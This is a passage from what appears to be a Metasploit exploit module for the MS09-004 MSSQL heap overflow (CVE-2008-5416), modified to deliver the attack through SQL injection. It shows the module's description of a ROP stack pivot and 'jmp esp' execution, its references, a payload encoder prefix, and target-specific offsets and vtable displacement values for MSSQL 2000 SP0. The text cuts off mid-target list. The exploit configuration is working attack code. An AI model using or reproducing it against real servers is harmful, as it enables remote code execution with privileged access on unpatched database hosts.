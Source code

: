             This particular exploit replaces the previous dual-method exploit. It uses
            a technique where the value contained in ecx becomes the stack. From there,
            return oriented programming is used to normalize the execution state and
            finally execute the payload via a "jmp esp". All addresses used were found
            within the sqlservr.exe memory space, yielding very reliable code execution
            using only a single query.

            NOTE: The MSSQL server service does not automatically restart by default. That
            said, some exceptions are caught and will not result in terminating the process.
            If the exploit crashes the service prior to hijacking the stack, it won't die.
            Otherwise, it's a goner.
          },
          'Author'         =>
            [
              'jduck',          # MS09-004 base exploit
              'Rodrigo Marcos'  # SQL Injection mods
            ],
          'License'        => MSF_LICENSE,
          'Version'        => '$Revision: 11631 $',
          'References'     =>
            [
              [ 'OSVDB', '50589' ],
              [ 'CVE', '2008-5416' ],
              [ 'BID', '32710' ],
              [ 'MSB', 'MS09-004' ],
              [ 'URL', 'http://www.milw0rm.com/exploits/7501' ],
              [ 'URL', 'http://www.secforce.co.uk/blog/2011/01/exploiting-ms09-004-via-sql-injection/' ]
            ],
          'DefaultOptions' =>
            {
              'EXITFUNC' => 'seh',
                   'InitialAutoRunScript' => 'migrate -f'
            },
          'Payload'        =>
            {
              'Space'    => 512,
              'BadChars' => "", # bad bytes get encoded!
              'PrependEncoder' => "\x81\xc4\xf0\xef\xff\xff",
              'DisableNops' => true
            },
          'Platform'       => 'win',
          'Privileged'     => true,
          'Targets'        =>
            [
              # auto targeting!
              [ 'Automatic', { } ],

              #
              # Individual targets
              #
              [
                # Microsoft SQL Server  2000 - 8.00.194 (Intel X86)
                # Aug  6 2000 00:57:48
                'MSSQL 2000 / MSDE SP0 (8.00.194)',
                {
                  'Num'      => 32,          # value for "start_offset"
                  'VtOff'    => -13,         # offset from 'Num' to smashed vtable ptr
                  'VtDisp'   => 0x38,        # displacement from call [eax+0x38] crash